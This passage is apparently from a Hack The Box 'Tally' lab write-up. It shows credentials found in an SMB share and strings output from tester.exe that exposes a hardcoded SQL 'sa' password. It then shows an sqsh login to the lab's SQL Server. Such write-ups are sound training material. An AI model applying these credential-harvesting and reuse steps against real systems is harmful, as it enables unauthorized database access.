 View the content of the file on the attack machine.

```text
old server detailsdb: sa
pass: YE%TJC%&HYbe5Nwhave changed for tally
```

We have SQL credentials for an old server.

The other interesting entry we found is in the _zz\_Migration\Binaries\New_ folder directory.

![](https://miro.medium.com/max/1139/1*Wwr004NmQeDC-qo4VrM4zw.png)

The file _tester.exe_ looks like a custom executable file. Download it to your attack machine.

```text
get tester.exe
```

Use the _strings_ command to print the list of printable characters in the file.

```text
root@kali:~/Desktop/htb/tally/smb# strings tester.exe...
WVS3
<$Xf
^_[3
SQLSTATE: 
Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
Unknown exception
bad cast
bad locale name
false
true
generic
iostream
iostream stream error
ios_base::badbit set
...
```

We get another SQL username and password.

```text
username: sa
password: GWE3V65#6KFH93@4GWTG2G
```

### Port 1433 SQL <a id="471c"></a>

Let’s test out the first credentials we found to log into the database.

```text
sqsh -S 10.10.10.59 -U sa -P "YE%TJC%&HYbe5Nw"
```

* **-S:** server
* **-U:** username
* **-P:** password

